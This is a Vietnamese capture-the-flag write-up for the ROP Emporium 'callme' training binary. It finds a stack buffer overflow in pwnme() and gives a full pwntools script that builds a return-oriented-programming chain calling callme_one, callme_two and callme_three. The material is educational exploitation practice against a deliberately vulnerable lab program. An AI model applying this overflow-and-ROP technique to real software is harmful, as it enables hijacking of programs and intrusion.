



# ROP_Emporium - callme

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e8e49880bdcaeb9012c6de5f8002c72d8827ea4c, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'


```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()


Còn có hàm usefulFunction()



Ở hàm pwnme() ta có thể thấy tại dòng thứ 8 cho phép ghi 0x200 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Có thể thấy ở bài này không có hàm win nên ta không thể sử dụng ret2win, khi tra cứu tất cả các hàm bằng gdb ta thấy 1 usefulGadgets():


Cũng như khi xét hàm usefulFunction():



Ở đầu usefulFunction() có các gadgets ta có thể tìm được trong file binary:


Tại usefullGadgets() có các hàm **pop** các thanh ghi **rdi,rsi,rdx** giống với tham số cho mỗi lần call **callme_one, callme_two, callme_three**

--> ROP_gadget

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:


Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành ROP_chain với các tham số và call hàm như hint đề bài:



Vậy các tham số truyền vào các hàm lần lượt là:
arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d

Và các hàm cần gọi lần lượt theo thứ tự: 
**callme_one**
**callme_two** 
**callme_three**

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./callme', checksec=False)

p = process("./callme")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
push_rbp = 0x0000000000400840
#system = elf.sym['system']
rdi_rsi_rdx_ret = elf.sym['usefulGadgets']
vuln = elf.sym['usefulFunction']

call1 = elf.sym['callme_one']
call2 = elf.sym['callme_two']
call3 = elf.sym['callme_three']

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d

payload = flat(
    cyclic(0x28),
    push_rbp,
    rdi_rsi_rdx_ret,
    arg1,
    arg2,
    arg3,
    call1,
    
    rdi_rsi_rdx_ret,
    arg1,
    arg2,
    arg3,
    call2,
    
    rdi_rsi_rdx_ret,
    arg1,
    arg2,
    arg3,
    call3
    )
p.sendlineafter(b">",payload)
p.interactive()


```

# 4. Lấy flag


